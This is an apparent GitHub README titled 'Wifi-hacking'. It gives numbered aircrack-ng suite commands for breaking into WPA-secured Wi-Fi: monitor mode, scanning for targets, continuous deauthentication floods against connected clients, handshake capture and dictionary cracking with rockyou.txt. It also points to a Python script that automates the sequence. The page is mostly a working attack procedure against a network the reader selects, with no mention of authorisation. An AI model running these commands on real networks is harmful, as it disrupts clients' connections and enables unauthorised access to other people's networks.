 # Wifi-hacking
If there is a lock next to the network name (SSID / Service Set Identifier), that indicates security
is activated. Without a password or passphrase, we won't be able to get access to that network
or the internet. WIfi security can be based on Wired Equivalent Privacy(WEP) or Wifi Protected
Access(WPA). Aircrack-ng is a suite of tools to assess WIfi network security, it can be used on
cracking WEP and WPA-PSK keys.

# REQUIREMENTS
1. Wifi network adapter
2. WIfi network to attack
3. Kali linux
4. Airmon-ng
5. Airodump-ng
6. Aircrack-ng

# COMMANDS
1. iwconfig - 
  <iwconfig> command shows us that a network adapter is connected to the virtual box or
  the attacker’s machine. It also shows the mode of the network adapter - initially, it will be
  in managed mode.
2. Sudo airmon-ng check kill   - 
  It kills any conflicting processes so that it won't interfere with the Wi-Fi attacks.
3. Sudo airmon-ng start <wlan0>   - 
  Initially the network adapter connected to the attacker’s machine will be in "engaged
  mode", we need to modify it into monitoring mode.
4. Sudo airmon-ng   - 
  We use this command to verify if the adapter’s mode is changed to monitoring mode.
5. Sudo airodump-ng <wlan0mon>   - 
  In order to discover the access points or the available wifi networks, we make use of this
  command. It displays the wireless networks, channel, SSID, MAC address of the various
  stations. From this we need to select a network to be attacked.
6. Sudo airodump-ng wlan0mon -d <mac-address>   - 
  It only displays the details related to the particular access points. If we try connecting to
  that network using some other device, we would be able to spot the connected client
  device.
7. Sudo aireplay-ng –deauth 0 -a <mac-address> wlan0mon   - 
It de-authenticates the clients from the network. We are going to send continuous deauth
packets to the connected devices of the network. WPA four-way handshake is captured.
8. Sudo airodump-ng -w hack1 -c 2 –bssid <bssid id> wlan0mon   - 
It is used to capture the 4-way handshake. Which is stored in a wireshark file named
hack1, we further use it to crack the password of the device connected to.
9. Sudo airmon-ng stop wlan0mon   - 
It stops the network adapter from monitor mode and changes it back to the default.
10. Aircrack-ng <pcap file name> -w </usr/share/wordlists/rockyou.txt>   - 
It cracks the passphrase of the network.

# DEMO

 - The process can be automated by the Python script.
 - git clone the repository and pip install the requirements
 - run the python script to automate the tasks
![w1](https://github.com/nithzz/Wifi-hacking/assets/79152978/bce6b783-eed9-4276-a29d-b868429229b8)

![w2](https://github.com/nithzz/Wifi-hacking/assets/79152978/9436bfa4-6fe2-475b-83d3-7a95da6f5c51)

![w3](https://github.com/nithzz/Wifi-hacking/assets/79152978/20e4b4bf-c44c-4d9b-8cbf-74adc07ee9c0)

![w4](https://github.com/nithzz/Wifi-hacking/assets/79152978/2426fd29-f554-4d4c-a41a-ef64df4483e1)

![w5](https://github.com/nithzz/Wifi-hacking/assets/79152978/2fa7c40e-0819-4917-a042-f4147ab95eec)

![w6](https://github.com/nithzz/Wifi-hacking/assets/79152978/ce7da352-b099-4b76-a41b-5cbf94f8c153)

![w7](https://github.com/nithzz/Wifi-hacking/assets/79152978/011517c0-9409-46a7-9a69-612c966d7dad)

![w8](https://github.com/nithzz/Wifi-hacking/assets/79152978/204f3744-959e-4e96-a8a7-bb168a356195)

